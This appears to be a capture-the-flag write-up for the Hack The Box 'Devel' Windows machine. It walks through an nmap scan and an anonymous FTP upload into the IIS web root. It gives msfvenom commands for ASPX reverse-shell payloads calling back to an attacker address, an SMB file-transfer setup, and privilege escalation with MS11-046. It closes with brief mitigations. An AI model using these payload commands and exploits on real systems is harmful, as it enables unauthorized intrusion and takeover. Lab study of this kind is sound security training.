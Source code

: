 # DEVEL

lets run an nmap scan

```text
# Nmap 7.91 scan initiated Mon Aug  2 13:45:06 2021 as: nmap -vvv -p 21,80 -sV -sC -oN devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.099s latency).
Scanned at 2021-08-02 13:45:06 IST for 13s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:45:19 2021 -- 1 IP address (1 host up) scanned in 13.05 seconds
```

So we have FTP and HTTP, lets explore FTP first, looking at the welcome.png and iisstart.htm, looks like, this is where the web server is getting its content from, So, first thing I did is try to upload something onto the FTP server, which seem to have worked. So I've copied the image file and renamed it and uploaded it again on to the FTP and am able to access it from the HTTP server \(this is how I was able to confirm\)

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f asp LHOST=10.10.14.25 LPORT=4242 -o pl.asp
```

i've tried above stuff to generate asp payload and upload it into the FTP server, but that didn't seem to have worked. So I started looking for 'IIS htm reverse shell' on Google. Meanwhile I tried fuzzing the HTTP server with asp, htm, txt extensions, only thing I've got is /aspnet\_client, we got until here, but all of them are forbidden

```text
http://10.10.10.5/aspnet_client/system_web
```

so, only thing seems like is we have to put something in the FTP and get it to run, so lets focus on that now, so I've got some link [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/), which we can try now, we have a config file now which I'm going to try

Seems, its only showing htm file, on other extensions it just shows file not found, and now we have look if anything like this with .htm files. So I've kinda figured we can do this with .aspx files as our msfvenom payload, so lets try that now,

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f aspx LHOST=10.10.14.25 LPORT=4242 -o pl.aspx
```

and upload this file through FTP and start a listener.

![](../../.gitbook/assets/image%20%281%29.png)

so, we got a revershell as the iis user, and not sure how I should proceed from now, So, I'll just try to upload a winpeas.exe file and run the local PrivEsc enumeration

I usually use the smbserver.py impacket thing to share the local kali drive. So, lets do that

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

so, this worked, but when I try to run the winpeas.exe command, it doesn't seem to work, which is when I've realized that I've been trying to run x64 winpeas on x86 machine. Even after changing, that didn't seem to have worked, So, I'm not sure what I can do at this stage

![](../../.gitbook/assets/image%20%287%29.png)

So, I've left to try the metasploit way now, where we can search for local exploits etc \(actually this I've got from ippsec video for this specific box\), so lets try that ourselves \(generating a meterpreter shell\)

![](../../.gitbook/assets/image%20%286%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

```text
Navigating to c:\windows\TEMP is a good idea, as a large portion
of Metasploit’s Windows privilege escalation modules require a file to be written to the target
during exploitation

Running sysinfo in the Meterpreter session reveals that the target is x86 architecture, so it is
possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
not be said for running the module on x64
```

for some reason, our meterpreter exploit suggester doesn't work as expected, so I've used the exploit directly, which worked, and we're able to get the flags

![](../../.gitbook/assets/image.png)

there is another way we can do this local privilege escalation, I've got the exe file from this repo [https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe), we can just run it on our target machine where we have IIS user to get NT Authority user

Mitigations:

Operating system should be patched to avoid this sort of Local privilege escalation exploits. And dont allow Anonymous access on FTP and also dont allow uploads on FTP if not needed


